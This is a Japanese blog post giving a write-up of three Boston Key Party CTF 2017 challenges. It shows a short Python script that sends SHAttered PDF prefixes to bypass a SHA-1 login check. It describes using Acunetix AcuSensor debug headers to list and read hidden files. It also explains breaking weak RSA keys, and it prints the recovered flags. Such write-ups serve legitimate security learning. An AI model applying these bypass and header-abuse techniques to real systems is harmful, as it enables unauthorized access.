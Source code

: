 ```yaml
---
layout: post
title: Boston Key Party CTF 2017 の write-up
categories: [ctf]
date: 2017-02-28 12:00:00 +0900
---
```


チーム Harekaze で [Boston Key Party CTF 2017](http://bostonkeyparty.net/) に参加しました。最終的にチームで 301 点を獲得し、順位は 135 位 (得点 948 チーム中) でした。うち、私は 3 問を解いて 300 点を入れました。

以下、解いた問題の write-up です。

## [cloud 50] Prudentialv2

`$name == $password` かつ `sha1($name) === sha1($password)` な文字列を見つけろという問題でした。[http://shattered.it/](http://shattered.it/)。

```python
import requests
import urllib

url = 'http://54.202.82.13/?name={}&password={}'.format(
  urllib.quote(open('shattered-1.pdf', 'rb').read()[:1000]),
  urllib.quote(open('shattered-2.pdf', 'rb').read()[:1000])
)
print requests.get(url).content
```

```
AfterThursdayWeHadToReduceThePointValue
```

## [cloud 100] Wackusensor

与えられたソースを読んでいると `$_SERVER['HTTP_ACUNETIX_ASPECT_PASSWORD']` を読んでいる箇所があります。ググってみると [SQL Injection and XSS vulnerabilities in CubeCart version 4.3.3](http://www.acunetix.com/blog/articles/sql-injection-xss-cubecart-4-3-3/) という記事がヒットしました。

パスワードが `bkp2017` ということなので `Acunetix-Aspect-Password: 4faa9d4408780ae071ca2708e3f09449`、`Acunetix-Aspect: enabled` を付与して `/` にアクセスすると

```
00000010PHP_File_Includes0000003Csuper_secret_file_containing_the_flag_you_should_read_it.php00000017/var/www/html/index.php0000000Fs00000015"include" was called.0000000AVar_Accessa0000000200000003GET00000001s00000017/var/www/html/index.php00000012n0000000AVar_Accessa0000000200000003GET0000001Dsuper_secret_parameter_hahaha00000017/var/www/html/index.php00000014n
```

というような文字列が Base64 エンコードされて出力されました。`/super_secret_file_containing_the_flag_you_should_read_it.php` を見てみると、

```
It seems that this machine is executing the php code instead of displaying it,
you'll have to find another way :o)
```

とあり、どうやらこのソースを見る必要があるようです。`Acunetix-Aspect-Queries: filelist` を付与してアクセスすると

```
00000004PANGn0000000000000000n00000009File_Lista0000000800000016super_secret_temp_dir/0000003Dsuper_secret_temp_dir/_AAS16700684323dcb105cae71d0057151d9e1c0000003Dsuper_secret_temp_dir/_AAS167a8756efa1c65a6374f139ccab28d68e40000000Bfavicon.png0000003Csuper_secret_file_containing_the_flag_you_should_read_it.php00000009index.php00000011acu_phpaspect.txt00000009style.css0000004A/var/www/html/super_secret_file_containing_the_flag_you_should_read_it.php00000000n
```

という文字列が Base64 エンコードされて出力されました。`/super_secret_temp_dir/_AAS16700684323dcb105cae71d0057151d9e1c` にアクセスするとフラグが表示されました。

```
BKP{What_about_writing_a_Burp_extension_for_this_N0w?}
```

## [crypto 150] RSA Buffet

10 個の公開鍵と 5 個の暗号文が与えられるので、なんとかして復号しろという問題でした。

私が問題を見た時点で、[@jtwp470](https://twitter.com/jtwp470) さんが key-3.pem の秘密鍵を作って ciphertext-4.bin を復号されていました。どうやら与えられた公開鍵は脆弱なものばかりなようです。

key-0.pem と key-6.pem は gcd を取ってみると共通の素因数を持つことが分かりました。

key-1.pem は Fermat 法で素因数分解できました。

key-2.pem は [factordb.com](http://www.factordb.com/) に素因数分解の結果が載っていました。

ciphertext-1.bin は key-2.pem の秘密鍵で、ciphertext-3.bin は key-0.pem の秘密鍵で、ciphertext-5.bin は key-1.pem の秘密鍵で復号できました。あとは

```python
from secretsharing import PlaintextToHexSecretSharer as SS
print SS.recover_secret(['1-e0c113fa1ebea9318dd413bf28308707fd660a5d1417fbc7da72416c8baaa5bf628f11c660dcee518134353e6ff8d37c', '3-b69efb4f9c5205175a4c9afb9d3c7bef728d9fb6c9cc1241411b31d4bd18744660391a330cefa8a86af8d2b80c881cfa', '5-a7a1e271cf263279cece532b540545fa539b0f3650e2929163b02ee5459debdc53c1e07149eb2153015bb5c88e6270e8'])
```

で

```
Three's the magic number!  FLAG{ndQzjRpnSP60NgWET6jX}
```

と出力されました。

```
FLAG{ndQzjRpnSP60NgWET6jX}
```

## 感想

- [cloud 200] Artisinal Shoutboxes
- [cloud 250] Accelerated.zone

は解きたかったのですが解けませんでした。くやしい。
